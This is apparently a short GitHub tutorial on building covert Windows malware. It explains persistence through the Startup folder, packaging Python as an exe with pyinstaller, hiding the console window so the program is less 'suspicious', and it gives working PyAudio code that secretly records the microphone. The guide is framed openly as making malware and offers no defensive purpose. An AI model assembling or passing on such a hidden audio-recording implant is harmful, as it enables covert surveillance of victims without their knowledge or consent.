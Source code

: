# Auto-run

This will discuss windows executables

you can do windows+R the type shell:startup

It will open C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Anything in this folder will run at boot



# Create simple python exe

Real malware isn't written in python lol but let's run with this

```
pip install pyinstaller
pyinstaller yourfile.py -F --onefile
```

# Make exe hidden

There will be a brief cmd popup whenever your script runs, very suspicious, let's remove it. 

There are many tutorials and many different ways and will probably change in future windows versions. 

A simple one in this case is add `--noconsole` to pyinstaller. 

# Recording audio

```
pip install pyaudio
```


```python
import pyaudio
import wave

def record_audio(seconds, filename):
    p = pyaudio.PyAudio() 
    fs = 44100
    chunk = 1024
    stream = p.open(format=pyaudio.paInt16,channels=2,rate=fs,frames_per_buffer=chunk,input=True)
    frames = [] 
    for _ in range(0, int(fs / chunk * seconds)):
        data = stream.read(chunk)
        frames.append(data)
    stream.stop_stream()
    stream.close()
    p.terminate()
    wf = wave.open(filename, 'wb')
    wf.setnchannels(2)
    wf.setsampwidth(p.get_sample_size(pyaudio.paInt16))
    wf.setframerate(fs)
    wf.writeframes(b''.join(frames))
    wf.close()

record_audio(seconds=10, filename="output.wav")
```
